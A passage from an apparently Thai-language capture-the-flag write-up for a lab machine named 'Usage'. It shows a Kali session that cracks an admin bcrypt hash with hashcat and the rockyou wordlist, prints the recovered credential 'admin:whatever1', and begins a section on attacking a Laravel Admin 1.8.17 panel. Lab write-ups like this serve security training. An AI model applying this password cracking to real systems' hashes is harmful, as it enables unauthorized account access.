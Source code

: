 ```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ vim admin.hash

$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2


┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat admin.hash  /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu--0x000, 2909/5883 MB (1024 MB allocatable), 4MCU

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].

Started: Sat May 31 11:06:46 2025
Stopped: Sat May 31 11:06:47 2025
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop]
└─$ 

```

จากการตรวจสอบจะพบว่าเป็น hash ชนิด bcrypt 

```bash
hashcat admin.hash  /usr/share/wordlists/rockyou.txt -m 3200

$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1

admin:whatever1
```

# Exploit web admin

หน้าดังกล่าวเป็นหน้าของ Laravel Admin version 1.8.17 

![[Challenge/HTB Challenge/Usage/IMG/015.png]]
